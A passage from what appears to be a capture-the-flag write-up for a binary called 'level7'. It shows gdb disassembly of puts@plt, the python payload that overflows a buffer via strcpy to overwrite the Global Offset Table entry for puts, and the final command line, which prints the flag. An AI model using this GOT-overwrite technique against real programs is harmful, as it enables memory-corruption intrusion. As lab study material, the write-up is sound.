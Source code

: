 10. After some research, we found out that we could overwrite a dynamicly resolved function address on the Global Offset Table, so to try this hypothesis, we have to find where is stored the function address we want to overwrite.
Thus, since our goal for now is to find a way to call `m` to print out our flag, the function we will want to overwrite will be `puts` (`fopen` open the flag file, `fgets` reads the flag, so `puts` if the only one left).

    ```bash
    > (gdb) disas puts
    Dump of assembler code for function puts@plt:
       0x08048400 <+0>:	jmp    *0x8049928
       0x08048406 <+6>:	push   $0x28
       0x0804840b <+11>:	jmp    0x80483a0
    End of assembler dump.
    ```

11. Ok, so the `puts` function address is stored at `0x08049928`, consequently, we want to append it to the previous padding, hence, we can overwrite it using the second `strcpy`.
Moreover, we want to call `m` instead of `puts`, and thankfully to the initial GDB informations, we already know that `m` is at `0x080484f4`.

    ```bash
    arg_1 = $(python -c "print 'A'*20 + '\x28\x99\x04\x08'")
    arg_2 = $(python -c "print '\xf4\x84\x04\x08'")
    ```

12. Capture the flag!

    ```bash
    > ./level7 $(python -c "print 'A'*20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
     - 1732123058
    ```


## Documentation

- Function: [fopen](https://man7.org/linux/man-pages/man3/fopen.3.html)
- Function: [fgets](https://man7.org/linux/man-pages/man3/fgets.3p.html)
- Function: [puts](https://man7.org/linux/man-pages/man3/puts.3.html)
- Article: [CTF - Global Offset Table](https://cs4401.walls.ninja/notes/lecture/basics_global_offset_table.html)
- Article: [Exploit - Global Offset Table](https://medium.com/@0xwan/binary-exploitation-heap-overflow-to-overwrite-got-d3c7d97716f1)
